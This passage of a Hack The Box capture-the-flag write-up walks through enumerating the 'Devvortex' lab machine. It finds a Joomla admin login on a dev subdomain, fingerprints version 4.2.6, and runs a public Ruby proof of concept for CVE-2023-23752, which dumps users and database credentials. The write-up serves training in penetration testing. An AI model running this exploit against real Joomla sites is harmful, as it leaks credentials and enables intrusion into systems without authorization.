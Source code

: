 ```
        /modules/
        /includes/
        /cache/
        /components/
        /language/
        /logs/
        /manifests/files/joomla.xml
        /index.php
    /cli
    /templates/
    /portfolio-details.html [404]
    /index.html [404]
    /index.php
    /configuration.php
    /htaccess.txt 
    /web.config.txt 
    /LICENSE.txt 
    /README.txt
```

We didn't find anything interesting directories on the main domain, but we did find the subdomain `dev.devvortex.htb`, that seems to contain some very interesting directories - especially `dev.devvortex.htb/administrator/`! Browsing to this page, we found a **Joomla Administrator Login** page:

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/fd880531-e87b-42a2-a9d9-9bb83cd2be83)

We didn't have prior experience with Joomla, so lets see if there are any known tricks online we can use to enumerate it. Luckily, we found a section on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#version) dedicated to Joomla! We managed to find the target's Joomla version by reading `/administrator/manifests/files/joomla.xml`:  

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/3b83ebe4-3a9a-412c-9cdd-d76a43f7d652)

After some short googling we found that this version of Joomla (4.2.6) is vulnerable to CVE-2023-23752, and we found this [PoC](https://github.com/Acceis/exploit-CVE-2023-23752/blob/master/exploit.rb) on GitHub! We downloaded the ruby script to our machine and executed it:

```bash
─[user@parrot]─[~/Documents/tmp/devvortex/exploit-CVE-2023-23752]
└──╼ $ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: true

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: <PASSWORD>
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
